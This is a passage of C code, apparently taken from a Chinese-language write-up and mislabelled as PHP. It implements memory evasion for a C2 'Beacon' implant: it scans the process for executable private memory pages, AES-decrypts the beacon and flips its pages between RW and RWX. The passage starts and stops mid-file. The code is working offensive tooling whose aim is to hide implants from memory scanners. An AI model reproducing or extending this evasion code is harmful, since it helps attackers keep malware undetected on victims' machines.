 ```php
    printf("Beacon已加密并将内存页属性调整为 RW.\\n");  
}  
​  
void My\_Decrypt()  
{  
    // 定位到真正的Beacon内存页  
    MemoryAttrib Beacon \= memoryInfo.memoryPage\[memoryInfo.index \- 1\];  
    DWORD bufSize \= Beacon.size;  
    unsigned char\* buffer \= (unsigned char\*)(Beacon.address);  
    int bufSizeRounded \= (bufSize \- (bufSize % sizeof(unsigned int)));  
    //int bufsize = bufSize % sizeof(unsigned int);  
​  
    // 对Beacon进行加密或解密  
    //for (int i = 0; i < bufSizeRounded; i++)  
    //{  
    //  buffer\[i\] ^= memoryInfo.key;    // 简单的异或加解密  
    //}  
    AESDecode(buffer, bufSizeRounded);  
    //AESDecode(buffer,bufsize);  
​  
    DWORD oldProt;  
​  
​  
        // 将内存页设置为可读可写可执行  
    VirtualProtect(Beacon.address, Beacon.size, PAGE\_EXECUTE\_READWRITE, &oldProt);  
    printf("Beacon已解密并内存页属性调整为 RWX.\\n");  
}  
​  

/\*  
    内存扫描  
\*/  
​  
void ScanMemoryMap()  
{  
    // 内存块信息结构体  
    MEMORY\_BASIC\_INFORMATION mbi;  
​  
    LPVOID lpAddress \= 0;  
    HANDLE hProcess \= OpenProcess(MAXIMUM\_ALLOWED, FALSE, GetCurrentProcessId());  
​  
    int\* index \= &memoryInfo.index;  
​  
    while (VirtualQueryEx(hProcess, lpAddress, &mbi, sizeof(mbi)))  
    {  
        // 查找可读可写可执行内存页  
        if (mbi.Protect \== PAGE\_EXECUTE\_READWRITE || mbi.Protect \== PAGE\_EXECUTE && mbi.Type \== MEM\_PRIVATE)  
        {  
​  
            // 保存内存信息  
            memoryInfo.memoryPage\[\*index\].address \= mbi.BaseAddress;  
            memoryInfo.memoryPage\[\*index\].size \= (DWORD)mbi.RegionSize;  
            printf("BaseAddr = %p\\n", memoryInfo.memoryPage\[\*index\].address);  
            (\*index)++;  
​  
            if ((\*index) \>= 3)  
                break;  
        }  
        // 更新到下一个内存页  
        lpAddress \= (LPVOID)((DWORD\_PTR)mbi.BaseAddress + mbi.RegionSize);  
    }  
​  
```
